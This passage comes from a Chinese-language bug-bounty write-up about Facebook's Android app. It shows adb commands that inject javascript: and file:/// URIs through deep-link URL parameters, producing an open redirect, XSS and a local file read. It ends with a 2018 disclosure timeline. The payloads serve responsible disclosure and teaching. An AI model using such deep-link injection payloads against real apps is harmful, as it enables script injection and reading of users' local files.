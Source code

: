 

## 漏洞分析

[![](https://ash-king.co.uk/assets/img/blog/adblist.png)](https://ash-king.co.uk/assets/img/blog/adblist.png)<br>
现在，我们有一个包含364个命令行的列表，是时候开始暴力破解了，我们在这里要重点关注获得了什么样的响应。经过尝试，我们发现了一些很有趣的响应内容，但最引人注意的是下面这三个：

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://payments_add_paypal/?url=`{`STRING`}`"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=`{`STRING`}`"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ads_payments_prepay_webview/?account=`{`STRING`}`&amp;contextID=`{`STRING`}`&amp;paymentID=`{`STRING`}`&amp;url=`{`STRING`}`&amp;originRootTag=`{`INTEGER`}`"
```

这三个深度链接都有一个共同点，就是URL参数。<br>
所以，考虑到参数需要提供一个URL，我就提供它想要的内容，因此构造了第一个负载：

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=javascript:confirm('https://facebook.com/Ashley.King.UK')"
```

结果：<br>[![](https://ash-king.co.uk/assets/img/blog/fbopenredirect.png)](https://ash-king.co.uk/assets/img/blog/fbopenredirect.png)<br>
成功！我们发现了第一个漏洞——一个没有经过严格校验的重定向。Facebook认可SSRF和重定向这样的漏洞，但并不能得到太高的评级，获得的奖励也大概是在500美元左右。<br>
接下来，我们继续尝试，看看能够利用这个地方做些什么。假如我们使用JavaScript URI方案而不是http或https呢？此外，我可不可以读取本地文件？

```
adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=javascript:confirm('https://facebook.com/Ashley.King.UK')"

adb shell am start -a "android.intent.action.VIEW" -d "fb://ig_lwicreate_instagram_account_full_screen_ad_preview/?adPreviewUrl=file:///sdcard/CDAInfo.txt"
```

出乎我的意料，上面的两次尝试都成功了！<br>[![](https://ash-king.co.uk/assets/img/blog/fbxss.png)](https://ash-king.co.uk/assets/img/blog/fbxss.png)<br>[![](https://ash-king.co.uk/assets/img/blog/fblfi.png)](https://ash-king.co.uk/assets/img/blog/fblfi.png)<br>
在此之后，我还花费了数个小时，用来进一步寻找漏洞，并寻找这个漏洞的进一步利用方式，但都没有取得更多的进展。因为我是在进行黑盒测试，没有源代码的情况下一切都像是盲人摸象，我认为我不能再继续纠结下去，于是向Facebook提交了所发现的漏洞。



## 时间节点

2018年3月30日 报告漏洞<br>
2018年4月4日 得到Facebook首次反馈<br>
2018年4月13日 Facebook修复该漏洞<br>
2018年5月16日 收到奖金


